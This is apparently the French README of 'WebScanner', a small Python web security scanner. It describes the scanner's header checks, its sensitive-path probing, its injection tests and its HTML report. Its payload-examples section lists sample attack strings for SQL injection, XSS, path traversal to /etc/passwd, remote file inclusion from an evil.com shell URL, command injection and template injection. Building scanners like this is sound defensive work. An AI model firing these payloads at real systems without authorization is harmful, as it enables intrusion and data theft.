 # 🛡️ WebScanner

WebScanner est un scanner de sécurité web simple et modulaire écrit en Python.  
Il permet de détecter les failles courantes comme :
- En-têtes HTTP manquants
- Chemins sensibles accessibles
- Vulnérabilités d’injection (XSS, SQLi, LFI, RFI, etc.)

---

## 🚀 Fonctionnalités

✅ Analyse des en-têtes de sécurité HTTP  
✅ Détection de chemins courants (`/admin`, `.git`, `/backup.zip`...)  
✅ Test de payloads malveillants (XSS, LFI, RFI, command injection...)  
✅ Rapport HTML clair avec niveaux de gravité et liens vers des solutions  
✅ Détection améliorée avec preuves d’exploitation (ex. : inclusion réelle de fichiers)  
✅ Modularité : chaque fonctionnalité est dans un module séparé (facile à maintenir)

---

## 📁 Arborescence

webscanner/
│
├── scanner.py # Script principal
├── payloads.txt # Liste de payloads d'injection
├── paths.txt # Liste de chemins communs à tester
├── rapport.html # Rapport généré automatiquement
├── scanner.log # Log des erreurs réseau
│
├── modules/
│ ├── headers.py # Analyse des en-têtes
│ ├── pages.py # Scan des chemins
│ ├── injection.py # Test des injections
│
├── utils/
│ ├── report.py # Génération du rapport HTML
│ ├── classifier.py # Classification des payloads
│ ├── detection_signatures.py # Signatures pour détection réelle
│
└── pycache/ # Fichiers Python compilés (à ignorer)

---

## ⚙️ Installation

### 1. Cloner le projet :

```bash
git clone https://github.com/ton-utilisateur/webscanner.git
cd webscanner

🧪 Utilisation
Scanner une URL : python3 scanner.py
ou directement : python3 scanner.py https://example.com

Résultat :
Un fichier rapport.html est généré dans le dossier courant.
Il contient :

La liste des failles détectées

Leur type (ex. : XSS, LFI...)

Leur niveau de dangerosité (Critique, Moyen, Info)

Des liens vers les solutions recommandées

📚 Exemples de payloads
Le fichier payloads.txt inclut plusieurs types de tests :

SQLi : ' OR 1=1 --

XSS : <script>alert(1)</script>

LFI : ../../../../etc/passwd

RFI : http://evil.com/shell.txt

Command Injection : $(id)

SSTI : {{7*7}}

🛠 Personnalisation
Ajouter des chemins à tester → paths.txt

Ajouter ou modifier des payloads → payloads.txt

Modifier le style ou le contenu du rapport → utils/report.py

🔒 Avertissement
⚠️ Ce projet est destiné à des fins éducatives uniquement.
N’utilisez cet outil que sur vos propres serveurs ou avec autorisation explicite.
Toute utilisation abusive est interdite.

📄 Licence
MIT License — Libre pour usage, modification et distribution.